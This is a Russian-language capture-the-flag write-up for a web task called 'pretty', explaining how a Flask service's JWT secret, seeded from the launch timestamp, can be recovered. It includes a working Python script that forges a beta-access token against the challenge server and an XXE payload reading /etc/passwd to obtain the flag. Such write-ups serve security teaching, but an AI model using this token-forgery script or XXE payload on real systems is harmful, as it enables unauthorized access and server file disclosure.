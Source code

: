 # pretty

Смотрим исходники, замечаем интересный путь /pretty_xml:
```python
@app.route("/pretty_xml", methods=["GET", "POST"])
@is_beta_allowed
@increase_counter(REQUESTS_COUNTER)
@ip_stats_mw(ip_stats_lock, ip_stats)
def pretty_xml():
    pretty_format = "XML"
    post_url = url_for('pretty_xml')

    if request.method == "POST":
        ugly_data = ""
        pretty_data = ""
        try:
            ugly_data = request.form.get("ugly_data")

            root = etree.fromstring(ugly_data)
            etree.indent(root, space="  ", level=0)
            pretty_data = etree.tostring(root, encoding='unicode')
        except Exception as e:
            print(e)
            pretty_data = "Errors in ugly data, check formatting"
        finally:
            return render_template("pretty.html",
                                   pretty_format=pretty_format,
                                   post_url=post_url,
                                   ugly_data=ugly_data,
                                   pretty_data=pretty_data)

    return render_template("pretty.html", pretty_format=pretty_format, post_url=post_url)
```  
Путь доступен только бета юзерам, которые определяются с `@is_beta_allowed` декоратора:
```python
def is_beta_allowed(f):
    @functools.wraps(f)
    def wrapper(*args, **kwargs):
        cookies = request.cookies
        try:
            decoded = jwt.decode(cookies["bc"], secret, algorithms=["HS256"])
            if not decoded["is_beta"]:
                return f(*args, **kwargs)
        except (KeyError, DecodeError):
            return redirect(url_for("not_beta", view=request.path))

        return f(*args, **kwargs)

    return wrapper
```  
Декоратор проверяет jwt токен записанный в куки с названием 'bc', если токен подписан с помощью `secret`, то пропускает дальше, в нашем случае в `/pretty_xml`.  
Смотрим как генерируется `secret` в secret.py:  
```python
import datetime
import random
import string

random.seed(int(datetime.datetime.utcnow().timestamp()))
secret = ''.join([random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits) for i in range(32)])
```

Генерируется он достаточно просто, сначала устанавливается seed для генератора случайных чисел с помощью random.seed, в качестве сид числа берется unix timestamp времени в момент выполнения кода по UTC. Дальше формируется строка из 32 случайно выбранных символа.
Вспоминаем, что сервис отображает на время "стабильной работы" на главной странице, а значит мы можем посчитать, когда был запущен сервис и сгенерироован secret, узнав unix timestamp запуска сервиса, мы сможем повторить генерацию секрета с нужным сидом, после чего мы без проблем сможем создать нужный jwt токен и подставить его в куки 'bc'.  
Далее код, генерирующий нужный jwt токен:
```python
import datetime as dt
from uuid import uuid4
import requests as reqs
import string
import random

import jwt

url = "http://194.26.138.228:5000/pretty_xml"

stats_time = "19:05:54 26.10.23"
run_time = 3

s_datetime = dt.datetime.strptime(stats_time, "%H:%M:%S %d.%m.%y").replace(tzinfo=dt.timezone.utc).timestamp()
start_timestamp = int(s_datetime) - int(run_time)

for i in range(10):
    random.seed(start_timestamp)
    secret = ''.join(
        [random.choice(string.ascii_lowercase + string.ascii_uppercase + string.digits) for i in range(32)]
    )

    token = jwt.encode({"uid": str(uuid4()), "is_beta": True}, secret, algorithm="HS256")
    cookies = {
        "bc": token
    }

    resp = reqs.get(url, cookies=cookies)
    if "beta" not in resp.text:
        print("START_TIMESTAMP:", start_timestamp)
        print("SECRET:", secret)
        print("TOKEN:", token)
        break

    start_timestamp -= 1
```

Код делает 10 попыток с разными секретами, каждый раз уменьшая сид на 1, т.к. между генерацией секрета и запуском сервиса могло пройти пару секунд(в реальности интервал редко превышал 1 секунду).

Вывод кода выше(может у вас отличаться):
```commandline
START_TIMESTAMP: 1698347150
SECRET: 5r3BX9ptFC99ayj05WG1xyX04j43W1S4
TOKEN: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1aWQiOiJmZGRlM2ZhNS03NmFkLTQwMWItOGJiNi0xNWZhYzA2NzMzMDUiLCJpc19iZXRhIjp0cnVlfQ.fRtVOdIT67IE0ZjnhvQVkUvoUXambnVeKInOecv_HZI
```

Подставляем токен в куки нашего браузера для удобства решения и получаем доступ к `/pretty_xml`.
Для чего же нам нужен был доступ к `/pretty_xml`? Хэндлер pretty_xml() содержит одну критическую уязвимость. При форматировании XML он дополнительно 'рендерит' его, что позволяет нам, например, подставить в итоговый XML любой файл хранящийся на сервере. Делается это с помощью вот такого пейлоада:  
```xml
<!DOCTYPE foo [  
<!ENTITY xxe SYSTEM "file:///etc/passwd">
]><foo>&xxe;</foo>
```
Это пейлоад эксплуатирует [XXE](https://habr.com/ru/companies/vds/articles/454614/) уязвимость. Отправляем его, получаем флаг:    
<img src="/Users/vpar/Documents/surctf_2023_autumn/tasks/web/pretty/images/writeup0.png" width="512"/>

Полный скрипт решающий таску можете найти в [solve.py](solve.py), в `stats_time` - подставьте строку времени с фронта сервиса, в `run_time` - целое число секунд "стабильной работы сервиса".  

`flag: surctf_secret_is_not_s3cret_if_u_kn0w_t1mestamp`